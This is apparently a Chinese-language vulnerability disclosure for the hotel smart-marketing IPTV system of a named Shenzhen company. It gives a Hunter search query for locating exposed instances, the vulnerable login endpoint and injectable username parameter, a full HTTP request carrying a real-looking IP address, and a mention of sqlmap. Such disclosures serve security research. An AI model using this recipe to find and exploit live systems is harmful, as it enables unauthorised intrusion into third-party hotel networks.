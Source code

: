 # 深圳市子辰视讯科技有限公司酒店智慧营销IPTV系统存在sql注入

# 一、漏洞简介
深圳市子辰视讯科技有限公司酒店智慧营销IPTV系统存在sql注入。

# 二、影响版本
+ 酒店智慧营销IPTV系统

# 三、资产测绘
+ hunter`web.title:"登录 - 酒店智慧营销IPTV系统"`
+ 特征

![1698932892581-a474c41f-686e-4883-b314-0993a114237b.png](./img/nuMvHSl80FyC2LGY/1698932892581-a474c41f-686e-4883-b314-0993a114237b-672455.png)

# 四、漏洞复现
漏洞位置：

```plain
/xsiptva/cniptv/userlogin.php
```

![1698932929487-4f3b4ae5-dfcf-47c5-b276-1d8ce2f24fb4.png](./img/nuMvHSl80FyC2LGY/1698932929487-4f3b4ae5-dfcf-47c5-b276-1d8ce2f24fb4-780511.png)

登录界面存在sql注入，username参数sql注入漏洞

```plain
POST /xsiptva/cniptv/userlogin.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://1.69.37.165:8880
Connection: close
Referer: http://1.69.37.165:8880/xsiptva/cniptv/userlogin.php
Cookie: PHPSESSID=8kvgnj6bg3vr7ljf12c861s3i4
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

sqlmap

![1698932982510-115d9e83-2ffa-4ee7-9f81-45fb28de0f62.png](./img/nuMvHSl80FyC2LGY/1698932982510-115d9e83-2ffa-4ee7-9f81-45fb28de0f62-596961.png)



> 更新: 2024-02-29 23:55:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bkkb8ze783s6xqap>